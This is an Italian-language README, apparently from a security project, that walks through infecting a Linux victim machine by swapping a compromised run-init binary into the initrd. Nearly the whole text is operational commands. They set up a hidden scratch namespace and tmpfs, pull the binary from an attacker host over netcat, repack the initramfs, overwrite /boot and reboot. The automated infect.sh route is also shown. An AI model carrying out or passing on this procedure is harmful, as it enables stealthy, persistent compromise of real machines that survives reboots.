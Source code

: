 # Come infettare la macchina vittima
Per prima cosa è necessario ottenere una shell come `root` e quindi eseguire un exploit per scalare i privilegi. Per la realizzazione di questo attacco si assume che questo lavoro sia già stato eseguito.

Creiamo uno _scratch space_ per lavorare senza sporcare la macchina vittima:
```
unshare -f
```
> **Nota:** Questo permette di eseguire un program in un nuovo namespace e, se invocato senza target, lancia una shell. L'opzione `-f` (`--fork`) permette di forkare la shell come child di `unshare` invece di eseguirla in modo diretto, inoltre, mentre `unshare` è in wait per il child, ignora i segnali `SIGINT` e `SIGTERM` e non li inoltra al child. Quindi eventualmente vanno mandati direttamente al child.

Tutto ciò che viene scritto ora non può essere visto dagli altri processi, dunque montiamo un file system temporaneo sulla directory `/lost+found`:
```
mount -t tmpfs none /lost+found/
cd /lost+found/
```
È comodo creare due cartelle di lavoro che permettano di eseguire l'unpack e il repack dell'initial ramdisk:
```
mkdir tmp
mkdir tmp/extracted
```

Di seguito è mostrata la procedura manuale per la modifica dell'`initrd`. Tuttavia, questo lavoro è automatizzato dall'uso dello script [`infect.sh`](scripts/infect.sh), come mostrato successivamente.

## Unpack e modifica di `initrd`
Per copiare l'effettiva immagine del disco da infettare ed estrarne il contenuto, eseguiamo:
```
cp /boot/initrd.img-$(uname -r) tmp/
cd tmp/
unmkinitramfs initrd.img-$(uname -r) ./extracted/
cd extracted/
```
Fatto ciò, è possibile esplorare e modificare il FS `initramfs`.

Dal server attaccante si ottiene il binario compromesso `run-init` sfruttando `netcat`:
- vittima (ip: 192.168.1.151)
```
nc -lvnp 9999 | base64 -d | tar xz
```
- attaccante
```
tar cz run-init | base64 | nc 192.168.1.151 9999
```
Ricevuto il file sulla macchina vittima, possiamo sostituirlo all'originale:
```
mv run-init main/usr/bin/run-init
```
## Repack di `initrd`
Per ricreare l'immagine del disco è necessario ricostruire l'archivio compresso come segue:
1. compressione `early`:
```
cd early/
find . -print0 | cpio --null --create --format=newc > /lost+found/tmp/newinitrd
```
2. compressione `early2`:
```
cd ../early2/
find kernel -print0 | cpio --null --create --format=newc >> /lost+found/tmp/newinitrd
```
3. compressione `main`:
```
cd ../main/
find . | cpio --create --format=newc | lz4 -l -c >> /lost+found/tmp/newinitrd
```
## Sostituzione del disco
È possibile verificare che l'immagine del disco creata venga correttamente interpretata come l'originale:
```
cd /lost+found/tmp/
binwalk initrd.img-$(uname -r)
binwalk newinitrd
```
Se tutto è corretto, si può procedere con la sostituzione e il riavvio:
```
cp newinitrd /boot/initrd.img-$(uname -r)
reboot
```
## Infezione automatizzata
Per evitare l'esecuzione manuale di tutti i passaggi descritti in precedenza, è stato realizzato lo script [`infect.sh`](scripts/infect.sh), che fa esattamente quel lavoro.

In questo caso, una volta posizionati nello _scratch space_ su `/lost+found`, basterà eseguire:
- vittima (ip: 192.168.1.151)
```
nc -lvnp 9999 | base64 -d | tar xz
```
- attaccante
```
tar cz infect.sh run-init | base64 | nc 192.168.1.151 9999
```
Dopodiché, lato vittima infettiamo `initrd` ed eseguiamo il riavvio:
```
./infect.sh /lost+found/run-init
reboot
```